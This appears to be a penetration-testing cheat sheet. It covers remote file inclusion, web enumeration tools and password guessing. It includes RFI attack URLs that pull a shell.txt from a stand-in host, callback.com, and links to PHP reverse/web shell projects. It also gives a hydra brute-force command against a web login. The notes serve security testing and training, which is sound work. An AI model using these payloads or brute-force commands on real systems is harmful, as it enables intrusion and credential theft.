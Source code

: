 
# Testing for RFI (Remote File Inclusion):
Examples:
- http://example.com/index.php?page=http://callback.com/shell.txt
- http://example.com/index.php?page=http://callback.com/shell.txt
- http://example.com/index.php?page=http:%2f%2fcallback.com%2fshell.txt

## Resources
- Turning LFI to RFI: https://l.avala.mp/?p=241


# Web Enumeration Tools
- nikto
- gobuster / dirsearch / rustbuster / dirb​
- burpsuite​
- curl / wget / telnet / nc​
- wpscan (Wordpress) / joomscan (Joomla) / droopescan (Drupal)​
- sqlmap​
- hydra​
- cadaver / davtest​
- Tamper Data
- OCSC Web Enum Techniques
- Web Server or Web App CVEs​
- Check for disallowed entries in robots.txt​
- Check the page source (Ctrl + U)​
- Directory Traversal​
- File Upload (and bypassing restrictions)​
- LFI / RFI​
- SQL Injection / Authentication Bypass​
- Command Execution​
- WebApp functionality​
- Site Editor tools, such as Site Template Editors​
- Credential re-use
- PHP Files
- https://github.com/Dhayalanb/windows-php-reverse-shell
- https://github.com/Arrexel/phpbash
- https://github.com/flozz/p0wny-shell

# Password Guessing
- It's not recommended to use large wordlists (i.e. rockyou.txt) when guessing passwords over the internet, better to use a smaller list (cewl, or darkweb2017-top1000.txt)

## Hydra
- `hydra -l admin -P /usr/sahre/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.2 http-get /targetURI`